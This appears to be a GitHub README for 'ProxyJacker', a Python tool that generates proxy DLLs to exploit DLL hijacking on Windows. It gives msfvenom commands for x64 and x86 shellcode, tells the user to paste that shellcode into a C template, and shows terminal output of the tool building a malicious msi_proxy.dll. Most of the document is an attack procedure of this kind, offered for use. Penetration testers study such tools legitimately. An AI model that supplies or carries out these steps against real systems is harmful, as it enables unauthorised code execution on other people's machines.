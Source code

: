 # ProxyJacker

### Details:

​	Tool for creating forwarding dll for exploiting dll hijacking vulnerability. 

### Requirements:

- [ ] Mingw-64 installed.
- [ ] python2. 
- [ ] PEfiles lib.

### Procedure: 

1. Create shellcode with msfvenom and replace with template file with `YOUR SHELLCODE` 

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f c -b "\x00" //FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f c -b "\x00" //FOR 32bit
   ```

2. Run script.

   ```
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py 
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   
   Usage: proxydllhijacker.py 'DLL File Location' 
   
   Usage: proxydllhijacker.py '/home/kali/xyz/abc.dll' 
   
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py msi.dll
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   [*] DLL is 32bit 
   
   [*] Defination File Created with name of export.def
   
   [*] Created 32bit DLL : msi_proxy.dll
   kali@kali:~/Music/hijack/proxyjacker$ ls 
   export.def  msi.dll  msi_proxy.dll  proxydllhijacker.py  template_64.c  template.c
   ```
##### For Upgrade Request Use telegram to connect me on telegram https://t.me/R0B077
   #### credits: Pentester Academy for teaching such great stuff 


   
